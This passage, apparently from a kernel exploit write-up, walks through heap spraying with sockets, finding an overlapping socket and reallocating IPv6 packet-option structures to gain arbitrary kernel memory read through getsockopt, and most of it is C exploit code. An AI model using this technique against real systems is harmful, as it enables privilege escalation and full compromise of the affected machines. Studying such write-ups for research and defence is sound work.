 ```c
  }

  triggered = 1;

  pthread_join(th[0], NULL);
  pthread_join(th[1], NULL);

  return find_overlap_sock();
}
```
`find_overlap_sock()` just modifies the victim and checks which of the sprayed sock's have been modified:
```c
static int find_overlap_sock(void) {
  char buf[sizeof(struct in6_pktinfo)];

  write_to_victim(pktopts_addr + PKTOPTS_PKTINFO_OFFSET);

  for (int i = 0; i < NUM_SPRAY; i++) {
    get_pktinfo(spray_sock[i], buf);
    if (*(uint64_t *)(buf + 0x00) != 0)
      return i;
  }

  return -1;
}
```

### So what next?
We still cannot directly write a socket object, so let us free the sprayed socket's and re-allocate them with `struct pktopts` which are basically "packet options" (pktopts) and can be written to read from.
```c
// master_sock and overlap_sock point to the same pktopts
  overlap_sock = spray_sock[idx];
  spray_sock[idx] = new_socket();
  printf("[+] Overlap socket: %x (%x)\n", overlap_sock, idx);

  // Reallocate pktopts
  for (int i = 0; i < NUM_SPRAY; i++) {
    free_pktopts(spray_sock[i]);
    set_tclass(spray_sock[i], 0);
  }

  // Fake master pktopts
  idx = fake_pktopts(0);
  overlap_sock = spray_sock[idx];
  spray_sock[idx] = new_socket(); // use new socket so logic in spraying will be easier
  printf("[+] Overlap socket: %x (%x)\n", overlap_sock, idx);
```
Let's see what we have accomplished: We now have a `
struct in6_pktinfo` (which is basically like a buffer we can write to and read from) and a `struct sock` at the same location. Thus, if we fill a particular offset of the pktinfo with an arbitrary pointer `x`, and then call `getsockopt()` (with appropriate options) on the victim socket, it will dereference the pointer and think that the contents of address `x` are the options and return it! Which means we have **arbitrary kernel read!**. We can read any 8 bytes of any kernel address like this:

